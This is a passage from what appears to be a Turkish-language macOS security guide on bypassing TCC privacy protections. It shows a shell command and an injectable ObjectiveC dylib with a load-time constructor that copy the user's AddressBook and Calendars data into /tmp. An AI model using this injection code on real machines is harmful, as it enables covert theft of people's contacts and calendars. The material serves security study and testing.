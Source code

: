 ```objectivec
fclose(stderr); // Close the file stream
}
```
{{#endtab}}

{{#tab name="Shell"}}
`$HOME/Library/Application Support/AddressBook`'ı `/tmp/contacts`'a kopyalayın.
```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
{{#endtab}}
{{#endtabs}}

### Takvim

- **Yetki**: `com.apple.security.personal-information.calendars`
- **TCC**: `kTCCServiceCalendar`

{{#tabs}}
{{#tab name="ObjectiveC"}}
`$HOME/Library/Calendars`'ı `/tmp/calendars`'a kopyalayın.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
NSString *tmpPhotosPath = @"/tmp/calendars";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{{#endtab}}

